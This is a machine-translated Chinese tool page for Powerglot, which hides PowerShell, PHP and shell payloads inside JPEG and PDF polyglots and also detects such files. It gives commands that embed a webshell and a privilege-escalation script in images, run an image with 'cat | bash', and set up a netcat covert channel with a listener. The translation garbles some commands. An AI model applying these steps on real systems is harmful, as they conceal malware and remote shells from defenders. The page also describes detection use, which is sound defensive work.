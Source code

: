 # Powerglot:使用多语种编码攻击性 Powershell 脚本

> 原文：<https://kalilinuxtutorials.com/powerglot/>

[![Powerglot : Encodes Offensive Powershell Scripts Using Polyglots](img/e0ceab57b7eb5ea709f609e507760a6b.png "Powerglot : Encodes Offensive Powershell Scripts Using Polyglots")](https://1.bp.blogspot.com/-csf6omBRQ9w/X3x60WDI0ZI/AAAAAAAAHvE/SHKAOJHpGAE3v1D5Vo7C2Poq9ditwYXiwCLcBGAsYHQ/s728/Powerglot%25281%2529.png)

**Powerglot** 使用多种语言对几种脚本进行编码，例如攻击性的 powershell 脚本。不需要装载机来运行有效负载。

在红队演习或进攻任务中，通常通过使用隐写术来屏蔽有效负载，尤其是为了避免网络级保护，这是 powershell 中开发的最常见的有效负载脚本之一。最近的恶意软件和 APT 利用了其中的一些功能:APT32、APT37、Ursnif、Powload、LightNeuron/Turla、Platinum APT、Waterbug/Turla、Lokibot、dukes(幽灵行动)、Titanium 等。

Powerglot 是一款基于 polyglots 的多功能多平台攻防工具。Powerglot 允许主要在数字图像中屏蔽脚本(powershell、shellscripting、php 等)，尽管其他文件格式也在开发中。与通常的攻击性工具或恶意软件不同，Powerglot 不需要任何加载程序来执行“信息隐藏”，最大限度地减少了对目标系统的干扰。

PowerGlot 在进攻任务中有明确的用途，但它也被定义为发现和蓝队工具。据我们所知，它是第一个通用和完整的开源工具，允许使用多语种搜索屏蔽信息的存在，这些信息可能有助于实现系统中的持久性或隐藏恶意软件(隐写恶意软件、权限提升、横向移动、反向外壳等)。)

**特性**

*   编码 powershell/shell 脚本/php/..在一个多语言的图像中。不需要加载程序来恢复/执行隐藏信息(有效载荷)。PowerGlot 支持多种格式。主要是 JPEG 和 PDF 格式。其他格式正在开发中。
*   Powerglot 是一个完整的开源工具，用于检测(恶意)polyglots，特别是一些公共工具如 Truepolyglot 或 stegoSploit 的结果。我们以几种格式工作:JPEG，PNG，GIF，BMP，ZIP，PDF，MP3 等。

**安装**

# git 克隆 https://github.com/mindcrypt/powerglot
# python 3 power glot

**用途&参数**

一些使用 polyglots 和 Powerglot 隐藏有效载荷的例子；

#示例 1–在 JPEG 图像中隐藏 powershell/php/shell 脚本

# python 3 powerglot . py-o payload . PS1 cat.jpg cat-hidden1.jpg
# python 3 powerglot . py-o webshell.php cat.jpg cat-hidden2.jpg
# python 3 powerglot . py-o shell . sh cat.jpg cat-hidden3.jpg

#示例 2–在 JPEG 图像中隐藏权限提升的 shell 脚本(linenum . sh)

# python 3 powerglot . py-o linenum。
#我们可以通过几种方式执行脚本:

a)cat cat-linenum | bash
b)chmod+x cat-linenum.jpeg； 。/cat-linenum.jpeg

#示例 3–在 JPEG 图像中隐藏隐蔽通道 with netcat

#攻击者
# echo " NC 127 . 0 . 0 . 1 4444 ">netcat . sh
# python 3 powerglot . py-o netcat . sh cat.jpeg cat-netcat.jpeg
# NC-nvlp 4444

#受害者
# chmod+x cat-netcat.jpg |。/cat-netcat.jpg

在我们的文件系统中检测多语言的一些例子

# python 3 powerglot . py-d ./
–=【检测多种语言】–=
…………………………………………..
【可疑文件】-[。/cat-end-extra2.jpg ]..
【可疑文件】-[。/cat-end-extra 3 . jpg][Polyglot Stegosploit][EOF 签名:*/–>

【可疑文件】-[。/cat-end-extra1.jpg ]..

![](img/7a8320d4b72ccb0359a3083f9aafac3e.png)

**未来的工作。做什么**

*   我们正在努力支持不同的文件格式，以便用多种语言对信息进行编码。目前，我们支持 JPEG 和 PDF 中的几种技术。
*   我们正致力于整合不同格式的多语言检测规则。目前，检测 JPEG 文件中是否存在 StegoSploit(在 FFD9 后添加*/–>

**作者&执照**

这个项目是由阿方索·穆尼奥斯博士和亚伯拉罕·帕萨马尔开发的。代码是在 GNU 通用公共许可证 v3 下发布的。

[**Download**](https://github.com/mindcrypt/powerglot)